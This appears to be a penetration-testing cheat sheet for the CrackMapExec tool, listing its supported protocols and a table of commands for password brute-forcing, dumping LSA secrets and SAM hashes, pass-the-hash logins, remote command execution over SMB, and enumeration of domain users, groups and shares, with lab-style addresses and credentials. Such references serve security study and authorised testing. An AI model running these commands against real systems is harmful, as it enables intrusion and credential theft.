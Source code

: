 ## Available protocols

- ftp
- mssql
- winrm
- ldap
- rdp
- ssh
- smb
---

| **Command** | **Description** |
| ---- | ---- |
| `crackmapexec <protocol> <ip/FQDN> -u <username or list> -p <password or list>` | Login to the protocol by credentials or bruteforce |
| `crackmapexec smb <ip> --local-auth -u <username> -p <password> --lsa` | Dumping LSA Secrets Remotely |
| `crackmapexec smb <target_ip> -u <username> -d . -H <Hash> -x <command>` | Remote executes command using NT hash |
| ``crackmapexec smb 10.10.110.17 -u Administrator -p 'Password123!' -x 'whoami' --exec-method smbexec`` | Execute a command over the SMB service using `smbexec`. |
| `crackmapexec smb 10.10.110.0/24 -u administrator -p 'Password123!' --loggedon-users` | Enumerating Logged-on users. |
| `crackmapexec smb 10.10.110.17 -u administrator -p 'Password123!' --sam` | Extract hashes from the SAM database. |
| `crackmapexec smb 10.10.110.17 -u Administrator -H 2B576ACBE6BCFDA7294D6BD18041B8FE` | Use the Pass-The-Hash technique to authenticate on the target host. |
| `sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --users` | Authenticates with a Windows target over `smb` using valid credentials and attempts to discover more users (`--users`) in a target Windows domain. Performed from a Linux-based host. |
| `sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --groups` | Authenticates with a Windows target over `smb` using valid credentials and attempts to discover groups (`--groups`) in a target Windows domain. Performed from a Linux-based host. |
| `sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --shares` | Authenticates with a Windows target over `smb` using valid credentials and attempts to discover any smb shares (`--shares`). Performed from a Linux-based host. |
| `sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 -M spider_plus --share Dev-share` | Authenticates with a Windows target over `smb` using valid credentials and utilizes the CrackMapExec module (`-M`) `spider_plus` to go through each readable share (`Dev-share`) and list all readable files.  The results are outputted in `JSON`. Performed from a Linux-based host. |
